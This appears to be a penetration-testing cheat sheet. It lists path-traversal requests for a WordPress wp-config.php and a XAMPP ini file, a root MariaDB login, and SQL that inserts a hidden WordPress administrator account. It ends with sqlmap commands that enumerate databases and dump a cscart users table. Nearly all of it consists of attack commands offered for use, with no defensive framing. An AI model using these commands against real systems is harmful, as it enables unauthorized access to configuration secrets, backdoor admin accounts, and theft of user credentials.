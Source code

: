 ### LFI

oneExample:
GET /../../../../xampp\php\extras\browscap.ini
GET /../../../../xampp/htdocs/blog/wp-config.php


### DB

#### Connect MariaDB
mysql -u root 10.10.10.10 -p Password@1

SQL Query for Wordpress:
```
INSERT INTO `databasename`.`wp_users` (`ID`, `user_login`, `user_pass`, `user_nicename`, `user_email`, `user_url`, `user_registered`, `user_activation_key`, `user_status`, `display_name`) VALUES ('4', 'demo', MD5('demo'), 'Your Name', 'test@yourdomain.com', 'http://www.test.com/', '2011-06-07 00:00:00', '', '0', 'Your Name');
 
 
INSERT INTO `databasename`.`wp_usermeta` (`umeta_id`, `user_id`, `meta_key`, `meta_value`) VALUES (NULL, '4', 'wp_capabilities', 'a:1:{s:13:"administrator";s:1:"1";}');
 
 
INSERT INTO `databasename`.`wp_usermeta` (`umeta_id`, `user_id`, `meta_key`, `meta_value`) VALUES (NULL, '4', 'wp_user_level', '10');
```

#### SQLMAP
```
sqlmap -r req2.txt --risk=3 --level=5 -p csid --dbms="MySQL" --dbs
sqlmap -r req2.txt --risk=3 --level=5 -p csid --dbms="MySQL" --tables -D cscart
sqlmap -r req2.txt --risk=3 --level=5 -p csid --dbms="MySQL" --columns -D cscart -T cscart_users
sqlmap -r req2.txt --risk=3 --level=5 -p csid --dbms="MySQL" --dump -D cscart -T cscart_users
```
